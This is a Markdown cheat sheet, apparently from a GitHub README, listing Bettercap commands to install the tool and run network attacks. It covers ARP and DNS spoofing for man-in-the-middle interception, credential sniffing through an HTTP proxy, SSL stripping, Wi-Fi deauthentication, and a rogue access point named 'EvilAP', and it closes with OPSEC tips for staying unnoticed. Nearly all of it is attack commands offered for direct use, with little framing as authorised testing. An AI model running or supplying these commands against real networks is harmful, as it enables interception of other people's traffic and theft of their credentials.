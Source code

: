 ## Using `go` (Latest):

```
go install github.com/bettercap/bettercap@latest
```

## 🚀 Starting Bettercap

```
sudo bettercap -iface wlan0
```

Optional: auto-run module/script:

```
sudo bettercap -iface wlan0 -caplet http-ui
```

## 🎯 Interface Commands

```
net.show            # Show LAN hosts
```

```
net.probe on        # ARP scan (active)
```

```
net.recon on        # Discover new hosts passively
```

```
net.recon off       # Disable passive recon
```

```
net.sniff on        # Start sniffing credentials and data
```

## 🛠️ MITM Setup

### Enable Spoofing & Sniffing

```
set net.sniff.verbose true
```

```
net.sniff on
```

```
set arp.spoof.targets <IP>
```

```
arp.spoof on
```

## DNS Spoofing
```
set dns.spoof.domains example.com
```

```
set dns.spoof.address 192.168.1.100
```

```
dns.spoof on
```

## 🌐 HTTP Proxy / Credential Sniffing

```
http.proxy on
```

```
http.server on
```

## Show Logged Credentials

```
events.stream on
```

## 📡 Wi-Fi Attacks

```
wifi.recon on              # Scan nearby APs and clients
```

```
wifi.show                  # List scanned devices
```

```
wifi.deauth <target>       # Deauth a client
```

```
wifi.ap.ssid "EvilAP"      # Set fake AP SSID
```

```
wifi.ap.on                 # Start rogue AP
```

## 🔐 HSTS/HTTPS Downgrade (BeEF-style)

Bettercap supports HSTS bypass if the browser is vulnerable (older versions). Requires:

```
http.proxy.sslstrip on
```

```
http.proxy on
```

## 📜 Using Caplets (Scripts)

Caplets are script files with Bettercap commands.

### List Built-in Caplets
```
caplets.update
```

```
caplets.show
```

## Load Caplet
```
caplets.show          # View available
```

```
caplets.install <name>
```

```
net.probe on
```

## Example: Load Web UI
```
caplets.update
```

```
caplets.show
```

```
bettercap -caplet http-ui
```

## 🧾 Logging

Enable logging to file:
```
set events.stream.output mylog.txt
```

```
events.stream on
```

## 🔍 Common Modules

| Module        | Use                                    |
| ------------- | -------------------------------------- |
| `net.sniff`   | Packet sniffer with credentials parser |
| `arp.spoof`   | ARP MITM spoofing                      |
| `dns.spoof`   | DNS redirection                        |
| `http.proxy`  | Transparent proxy                      |
| `wifi.ap`     | Fake access point                      |
| `wifi.deauth` | Kick users from networks               |

## 🔐 OPSEC Tips

- Monitor Bettercap's footprint on the network    
- Use with proper isolation (e.g. rogue AP)
- Avoid HTTP Proxy on secure networks unless testing

































































